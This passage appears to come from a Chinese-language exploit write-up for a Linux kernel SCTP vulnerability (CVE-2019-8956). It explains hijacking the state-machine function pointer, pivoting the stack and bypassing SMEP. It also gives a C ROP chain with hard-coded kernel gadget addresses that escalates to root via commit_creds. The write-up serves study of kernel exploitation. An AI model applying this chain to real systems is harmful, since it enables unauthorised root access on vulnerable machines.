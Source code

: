 通过构造msg_len即可避免触发memcpy_from_msg

`sctp_primitive_ABORT`最终调用`sctp_do_sm`

![image-20200128163934630](https://tva1.sinaimg.cn/large/006tNbRwgy1gbctnnfgf5j316q0u0gub.jpg)

state_fn其实最终由`DO_LOOKUP`决定，而此时的state就是asoc->state,是可控的,可以将state_fn指向任意位置。![image-20200129004536387](https://tva1.sinaimg.cn/large/006tNbRwgy1gbctng4z4kj31a40csq55.jpg)



通过查看源码,发现state_fn->fn实际就是state_fn所指向的地址，即此时劫持到了程序的流程

```c
struct sctp_sm_table_entry {
	sctp_state_fn_t *fn;
	const char *name;
};
```

我启动qemu的参数如下，开启了smep保护，没有打开kaslr

`qemu-system-i386 -hda rootfs.img -kernel bzImage -append "console=ttyS0 root=/dev/sda rw nokaslr quiet" -m 128M -nographic -s -cpu qemu32,smep`

因为打开了smep,无法直接执行用户态的代码,需要控制cr4寄存器将保护关闭,这就需要进行rop,但此时的栈是我们无法控制的。调试观察此时的寄存器状态

![image-20200129014622116](https://tva1.sinaimg.cn/large/006tNbRwgy1gbctnoggfjj31900catdi.jpg)

发现虽然寄存器不可控,但除了ebp,esp之外,寄存器所指向的地址我们都是可控的,通过ropper寻找gadget来进行栈的迁移。

`mov esp, dword ptr [ebx + eax]; add byte ptr [eax], al; add bl, byte ptr [ebx + 0x5d]; ret;`

我选择了这一条,这条gadget将栈迁移至了0x50的位置,接着我们只需要在0x50的位置构造rop就可以了

```c
	unsigned int *rop = (unsigned int *)0;
	rop[0] = 0x50;
	rop[20] = 0xc1022751; //pop eax;ret;
	rop[21] = 0x6d0;
	rop[22] = 0xc1022a69; //mov cr4, eax; push ecx; popfd; xor eax, eax; ret;
	rop[23] = 0xc1000324; //pop ebp;ret
	rop[24] = 0x4000;
	rop[25] = 0xc1022751; //pop eax;ret;
	rop[26] = 0xc71a5be0;
	rop[27] = 0xc124efdd; //mov esp, eax; call dword ptr [ebp - 0x77];
	unsigned int *tmp = (unsigned int *)(0x4000-0x77);
	tmp[0] = &get;
```

这里遇到了一个问题,当我把esp设置在映射出来的空间的时候

`commit_creds(prepare_kernel_cred(0));`

会报错,当我设置为内核中的栈地址的时候就可以正常执行

最后完整的exp如下,根据https://github.com/butterflyhack/CVE-2019-8956 改写

![image-20200129020020328](https://tva1.sinaimg.cn/large/006tNbRwgy1gbctnq6m0tj30s20gqjt1.jpg)
